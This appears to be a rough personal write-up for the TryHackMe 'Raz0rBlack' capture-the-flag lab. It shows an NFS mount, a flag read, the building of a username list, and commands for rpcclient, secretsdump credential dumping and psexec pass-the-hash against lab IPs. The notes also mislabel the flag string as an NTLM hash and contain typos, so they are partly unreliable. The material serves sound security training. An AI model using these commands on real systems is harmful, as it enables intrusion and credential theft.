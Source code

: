 I don't know but my initution was telling that if there is share folder than it should connect i might be doing something wrong and yes i was.

Finally the command worked haahahahahahha and got something
https://book.hacktricks.xyz/network-services-pentesting/nfs-service-pentesting

```
mount -t nfs -o vers=3 10.10.56.159:users . -o nolock
```

![[Pasted image 20230919151501.png]]

```
┌──(root㉿kali)-[~/TryHackMe/Raz0rBlack]
└─# cat sbradley.txt                
��THM{ab53e05c9a98def00314a14ccbfa8104}

```

![[Pasted image 20230919160317.png]]
file : employrr_status.xlxs
![[Pasted image 20230919160432.png]]

We have to do now try rpc dump or rpc client or could even do secretmapexec or crackmapexec 

```
User: steven_bradley
Hash: ab53e05c9a98def00314a14ccbfa8104
```
**As u can see that the employee name is 
steven bradley but the file name was sbradley so will make a modified user list like this**

10.10.245.107
Name:                  Role
carl ingram 	       CTF player inactive
chamber lin		CTF player inactive
Steven bradley         STEGO SPECIALIST
ljudmuka vetrova       CTF PLAYER DEVELOPER ACTIVE DIRECTORY ADMIN

```
Modified User list
cingram 	     
clin		
sbradley       
lvetrova       
```


User: steven_bradley
Hash: ab53e05c9a98def00314a14ccbfa8104

rpcclient -U "steven_bradle" -N 10.10.160.250
NTLM 1000


secretsdump.py raz0rblack/steven_bradley:ab53e05c9a98def00314a14ccbfa8104@10.10.245.107

psexec.py "steven_bradley":@10.10.245.107 -hashes ab53e05c9a98def00314a14ccbfa8104
